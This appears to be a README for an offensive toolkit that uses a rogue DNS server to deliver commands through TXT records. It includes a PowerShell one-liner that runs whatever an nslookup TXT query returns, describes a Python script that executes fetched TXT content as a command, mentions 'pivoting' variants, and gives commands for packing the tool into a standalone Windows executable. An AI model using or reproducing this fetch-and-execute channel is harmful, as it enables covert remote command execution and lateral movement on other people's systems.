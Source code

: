 ## DNS-Server.cs ##
- Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"\
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

  - DNS-Server.cs:\
    Simply a rogue DNS-Server with one TXT entry, being "systeminfo"

  - DNS-Server_1.cs:\
    Rogue DNS-Server with multiple TXT entries and a higher port

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>

## nshookup.py (needs dnspython) ##
- nshookup.py:\
  Python implemetation of nslookup. Only works with one TXT entry.
  Gets the entry and executes the content between the two "" as command.\
  Command: *python nshookup.py domain.com*

- nshookup_1.py:\
  Hardcoded domain:\
  Command: *python nshookup.py*

## pivoting.cs ##
- pivoting_1.cs:\
  No checks, just go for it
- pivoting_2.cs:\
  Checks if at least a part of a certain string is present before executing the first step
- pivoting_3.cs:\
  Defines the string as mandatory to execute the first step
